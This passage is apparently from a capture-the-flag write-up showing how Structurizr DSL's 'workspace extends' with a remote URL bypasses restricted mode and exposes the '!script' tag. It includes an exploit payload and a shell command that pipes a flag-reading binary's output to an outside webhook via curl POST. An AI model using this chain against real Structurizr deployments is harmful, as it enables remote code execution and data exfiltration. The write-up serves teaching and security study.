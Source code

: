 ```java
        if (context.isRestricted()) { // executes only if we provide anything besides a link
            throw new RuntimeException("Cannot import workspace from a file when running in restricted mode");
        }
    ...
    }
```

Focusing on the following fragment:

```java
String dsl = content.getContent(); // Gets the DSL code from our website
StructurizrDslParser structurizrDslParser = new StructurizrDslParser(); // creates a new StructurizrDslParser instance
structurizrDslParser.parse(context, dsl); // actually parses our DSL code from our website without passing the `restricted` flag!
```

we can see that now the `!script` tag is now available. So now as we know how to get to the `!script` tag let's go with the exploitation plan.

---

## Exploitation

1. Preparing a payload that extends the workspace with our malicious website:

```dsl
workspace extends "https://our-website.com" {
    model {
        u = person "User"
        ss = softwareSystem "Software System"
        u -> ss "Uses"
    }

    views {
        systemContext ss "Diagram1" {
            include *
            autolayout lr
        }
    }
}
```

2. Set the response body of `https://our-website.com` to contain a DSL code block containing `ruby` language _(it's the only language working as it was fixed in dockerfile)_ with `system` function executing system command:

```bash
/would you be so kind to provide me with a flag | curl -X POST -d @- https://our-webhook.site/
```

that would send using curl the output of the `/would you be so kind to provide me with a flag` execution to `https://our-webhook.site/`.
